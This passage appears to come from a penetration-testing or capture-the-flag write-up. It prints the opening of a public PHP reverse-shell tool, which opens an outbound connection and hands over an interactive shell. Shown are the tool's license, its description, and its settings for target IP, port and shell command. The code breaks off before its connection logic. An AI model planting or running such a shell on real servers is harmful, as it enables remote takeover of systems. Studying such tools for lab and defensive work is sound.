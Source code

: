 This is the exploit we are going to use:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
```